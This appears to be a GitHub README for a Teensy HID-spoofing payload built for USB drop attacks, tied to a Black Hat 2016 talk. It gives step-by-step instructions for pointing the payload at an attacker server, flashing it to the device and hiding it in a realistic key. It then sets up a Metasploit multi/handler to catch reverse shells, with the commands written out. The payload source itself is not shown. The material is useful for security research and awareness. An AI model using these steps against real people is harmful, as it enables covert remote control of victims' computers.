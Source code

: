 #HID spoofing multi-OS payload for Teensy

This code allows to create a cross-platform HID spoofing payload that
will spawn a reverse TCP-shell on Windows and OSX.

It was developed as part of the presentation I made at Blackhat USA 2016:
[Does Dropping USB drives in parking lots and other places really work?](http://www.elie.net/noyet) to show how to create realistic HID spoofing keys that can be used in USB key drop attack.

For more information on how to make realistic HID spoofing key see my [blog post on the subject](https://www.elie.net/malus)

# Environment setup

To get the payload working you need:
1. A Teensy. You can get one from [Amazon](http://amzn.to/2anjrMs) or [PRJC](https://www.pjrc.com/store/teensy32.html) directly
2. The Arduino environment with Teensyduino to compile your payload and the Teensy loader to upload the payload to your Teensy. See [instructions here](https://www.pjrc.com/teensy/index.html)

If you want to conceal the Teensy into a realistic key follow the instruction locate in the last third of my [blog post on the subject](https://www.elie.net/malus)

# Configuring the payload
The payload need to be configured to connect to the server of  your choice. There is to way to do it:
## Use the Python configuration script
That is the easy way and should work on most OSX and Linux or even Windows computers
as long as Python is installed. To run it simply invoke:
```
cd payload
python configure_payload.py IP PORT
```
where *IP* is the IP of the server and *PORT* is the TCP port you want the connection back. Your configured payload is available in the file **configured_payload.c**.

## Manual configuration
If you don't have python, something went wrong or want to do it manually. Here is
what you need to do:
  1. Edit the OSX payload from  **payload/payload_osx.txt** to
  replace the constant IP and PORT with the one from your server
  2. Replace in **payload/payload.c** the OSX_PAYLOAD string with your customized payload
  3. Edit the Windows payload from  **payload/payload_win.txt** and replace the constant IP and PORT with the one from your server

# Compiling and uploading payload to the Teensy
Once the payload is configured, to get your Teensy up and running all you need to do is:
1. Create a new project in Arduino environment
2. In Tool make sure that the *Board* option is set to *"Teensy 3.2 / 3.1"*
3. The Tool again set the *USB Type* option is set to : *"Serial + Keyboard + Mouse + Joystick"*
4. copy/past the code in the Arduino environment
5. Check that it is working by pressing the verify button
6. Press the compile and upload button to program your Teensy

Congratulation your Teensy is ready to go.


# Configuring the server

The server aspect requires to have a server that have a static IP that is reachable form Internet. We are going to use the generic Metasploit multi handler to control the reverse shell(s). Here is briefly how to do it, for more information please read the [Metaploit documentation](https://help.rapid7.com/metasploit/index.html)

1. Install and launch Metasploit
2. Load the multi-handler `use exploit/multi/handler`
3. Set the Payload to reverse-shell `set payload osx/x64/shell_reverse_tcp` Despite the name, it will works for all OS
4. Set the IP of the server `set LHOST YOUR_IP`
5. Set the PORT of the server `set LPORT YOUR_PORT`
6. Tell Metasploit to not close the plugin when a session disconnect: `set ExitOnSession false`
7. Launch the paylaod: `exploit -j -z`

# Controlling a reverse shell

When a key is plugged you will see a log message indicating a new session is connected. You get the list of sessions by issuing the command:
```
sessions -l
```

To control a specific session:
```
sessions -i session_id
```
